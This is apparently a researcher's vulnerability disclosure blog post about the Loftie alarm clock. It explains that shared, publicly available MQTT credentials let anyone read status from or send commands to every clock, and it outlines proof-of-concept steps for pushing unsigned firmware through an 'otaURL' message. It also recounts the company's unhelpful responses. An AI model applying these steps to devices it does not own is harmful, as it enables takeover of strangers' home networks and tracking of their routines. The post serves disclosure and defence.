



I have a [Loftie](https://byloftie.com) alarm clock. It's a relatively pleasant way to wake up, although it feels fundamentally unnecessary for an alarm clock to require Internet access to function. It also doesn't have a public API or local control, which is unfortunate as I'd like to be able to trigger home automation events when the alarm goes off (alarm data being a key input to a Wallace And Gromit-style morning pipeline).

I set about looking for a way to connect my clock to my [Home Assistant](https://www.home-assistant.io/) installation and found that the backend infrastructure for Loftie clocks is open to the public with no meaningful authentication. Worse, the clocks can be remotely updated with unsigned firmware from an arbitrary URL, giving a potential attacker a foothold on over 40,000 WiFi networks.

I was unsuccessful in reaching Loftie in order to coordinate disclosure.

# Firmware

Rather than disassemble my clock and look for a debug header[^1], I started by looking at the [Loftie Android App](https://play.google.com/store/apps/details?id=com.byloftie.app). A URL with an interesting subdomain caught my eye:

```
$ strings config.arm64_v8a.apk
...
assets/icons/clock.svg
_setClient@91206165
_TapStatusTrackerMixin@113288344
https://fwbek2lb0a213kbewqoit.byloftie.com/Loftie_EVT.bin           # <-------
get:digitMatcher
ListTileThemeData
get:endOfFrame
_drawPicture@15065589
...
```

This appears to be where the clock's firmware files are hosted. My guess is that this subdomain is an attempt at obfuscation, but a pointless one given the existence of [Certificate Transparency](https://crt.sh/?q=byloftie.com).




Now that I had the firmware[^2] I could see that it was an ESP32 firmware image (`strings` shows references to [ESP-IDF](https://idf.espressif.com/), Espressif's SDK) and dump the header information with `esptool`:

```
$ esptool.py image_info Loftie_EVT.binv0007_1.5.1
esptool.py v4.8.1
File size: 2747984 (bytes)
Detected image type: ESP32
Image version: 1
Entry point: 400818e0
5 segments

Segment 1: len 0xc34e8 load 0x3f400020 file_offs 0x00000018 [DROM]
Segment 2: len 0x061e4 load 0x3ffbdb60 file_offs 0x000c3508 [BYTE_ACCESSIBLE,DRAM]
Segment 3: len 0x0691c load 0x40080000 file_offs 0x000c96f4 [IRAM]
Segment 4: len 0x1b68e0 load 0x400d0020 file_offs 0x000d0018 [IROM]
Segment 5: len 0x18524 load 0x4008691c file_offs 0x00286900 [IRAM]
Checksum: 71 (valid)
Validation Hash: ff65961f5c8d13e64bde57b71a82baa6b44a224f4d01daf6b637b2f489bb3f2b (valid)
```

Using the header information displayed by esptool I could load the segments into [ghidra](https://ghidra-sre.org/).

# MQTT Backend

Debug symbols aren't available in this firmware, but there are enough log messages, strings, and reuse of vendor-provided example code that it's possible to make some annotations with confidence.

Looking again at strings I found another URL with a similar subdomain, this time at AWS.



We can see here that:
- MQTT is being used for the backend
- There is a server certificate, a client certificate, and a private key baked into the firmware.
- The MQTT topics are of the form `/devices/%s/{state,config,commands}`, with a device identifier in the form of the character 'l' followed by the device's MAC address.

It's important to emphasize here that the certificates and key shown above have not been dumped from my clock specifically, they are from the firmware image on Loftie's web server. **The certificates and key are shared by all clocks and are publicly-available**.

This also means that there is no per-device access control to specific MQTT topics. In other words, if a clock can subscribe to `/devices/lABCDEF123456/state`, it can subscribe to the wildcard topic `/devices/+/state` and receive status updates from every clock. These status updates aren't incredibly interesting, but they do leak information that some might consider sensitive. In particular, alarm settings and the BSSID of the WiFi network the clock is connected to (ie, a pattern of life and a [specific location](https://wigle.net/)).

It would be possible to demonstrate that publish access to `/devices/<...>/config` is also unrestricted by subscribing to `/devices/l<your-clock's-MAC>/config`, setting the alarm in the app, and then sending a similar message to one's own clock manually. In other words this publicly-available set of credentials can also be used to send commands to any clock.

# Over-The-Air (OTA) Update

At this point I became curious about the attack surface available. Given that anyone can send messages to my clock, what are its capabilities and could there be a remote code execution vulnerability? Is it a gateway onto my internal network[^3]? I looked through `IOTGW_Json2State()`, the handler for messages to the `config` topic. I thought I might find unsafe message parsing code but did not end up having to look that hard.



This function updates variables and calls functions based on the presence of, or values associated with, various keys in the incoming JSON message. Here we find `otaURL` which, if present, overrides the built-in firmware URL from the `fwbek2lb0a213kbewqoit.byloftie.com` domain to the user-provided URL.

There is then some version number checking based on the image header, although setting `otaURL` also appears to set a critical/force-update flag. Either way, receiving this message causes the clock to reach out and download the file at the given URL and apply it as an OTA update.[^4]

Although secure boot is a possibility on the ESP32, it is not being used by Loftie.

A proof of concept here would be to:
- Make a trivial modification to the existing firmware image (for example, changing the string `Alarm Settings` to `Loftie RCE    `).
- Update the checksum and validation hash at the end of the image (`esptool image_info` can check/provide the correct values).
- Send `{"otaURL":"https://xxxxxxxxx/Loftie_EVT.binv0007_1.5.1"}` to your own clock via `/devices/lXXXXXXXXXXXX/config`.
- Validate the result by checking the settings menu on the clock for the modified string.

# Company response

On 11/30/2024 I sent an email to Loftie's support saying that "I may have come across a security/privacy issue that I think your software team should be aware of" and asked if they had a process in place for disclosing security issues (for example, a safe harbor policy for security researchers or a public key that I should use to encrypt the details of the vulnerability).

I may have come across a bit vague, as I received this response[^5]:

> I hope you are having a great day so far!
>
> Thank you so much for bringing this matter to our attention.
>
> What we currently have is Alexa integration which you can find more information
> here.
>
> In the meantime, please feel free to reply to this email if you have any
> questions.

I was so startled by the incongruity of the response that I took a few days to reply. On 12/10/2024 I sent the following reply making the problem more explicit:

> No, what I mean is there is a security issue that allows an unauthenticated
> user to take over other clocks. Could you please get me in touch with your
> software team?

Loftie's response, on 12/11/2024, was:

> I hope all is well!
> 
> Thank you so much for clarifying that one.
> 
> Our team of experts confirmed that there will be no security issues that will
> allow any unauthorized user to take over the clock. That we can assure you, for
> more information please check our FAQ page.
> 
> In the meantime, please feel free to reply to this email if you have any
> questions.

In case it seemed like I was asking a question I tried to be very clear on 12/16/2024:

> I am a security researcher. I found a security vulnerability in the clock's
> firmware. Please escalate this to your team of experts so that I can fill
> them in on the details.

As of 12/26/2024 I have not received a response.

I understand that triaging reports of security vulnerabilities is time-consuming and paying people a living wage to engage with and escalate messages from customers can be expensive. However, choosing not to do these things is a business decision. From my persective: I've reached out over the only channel available to me, the company was unreceptive, and I've been left to choose between public disclosure or letting this sit until someone else discovers it.

# Update: Mitigation

**01/05/2025**:

At the time of this update there is no official fix. I patched my clock to use an MQTT broker on my network, and my notes on this can be found here: [https://github.com/iank/alarmclock-firmware](https://github.com/iank/alarmclock-firmware).

This also gets me Home Assistant integration, which was my original goal..

[^1]: Note from the future: it's a 5-pin Molex Picoblade, accessible by removing the bottom cover. IO0, EN, TXD0, RXD0, GND.
[^2]: Between the first draft of this article and publication a new firmware, version `0007_1.6.0` has been released but it does not patch the vulnerability.
[^3]: Or IoT VLAN, as the case may be.
[^4]: Helpful guidance in understanding the OTA update/image header validation code can be found by searching the web for unique strings, such as "Current running version is the **same as a new**". This will lead to the Espressif example code that was used to create Loftie's OTA update function. While not identical to the code in the clock (Loftie's version number scheme is more complex, for example), it's a good source of variable/function names and code patterns.
[^5]: Salutations and closings omitted for brevity.
